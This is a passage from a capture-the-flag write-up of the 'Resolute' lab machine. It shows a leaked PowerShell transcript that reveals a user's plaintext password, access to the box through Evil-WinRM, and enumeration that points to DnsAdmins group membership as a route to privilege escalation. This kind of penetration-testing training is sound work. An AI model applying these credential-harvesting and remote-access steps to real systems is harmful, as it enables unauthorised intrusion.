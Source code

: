 ```
SerializationVersion: 1.1.0.1
**********************
Command start time: 20191203063455
**********************
PS>TerminatingError(): "System error."
>> CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Command start time: 20191203063455
**********************
PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PS megabank\ryan@RESOLUTE Documents>
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

User:ryan 
Password: Serv3r4Admin4cc123!

## Privilege Escalation 

Upon navigating to User Ryan's desktop, there is a note:

```
*Evil-WinRM* PS C:\Users\ryan\Desktop> type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
*Evil-WinRM* PS C:\Users\ryan\Desktop>
```

This is good to keep in mind as it may affect how we interact with the system later.

Checking information about the ryan user shows that he belongs to the DNSadmin group which definetly sounds interesting.

```
*Evil-WinRM* PS C:\Users\melanie> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
```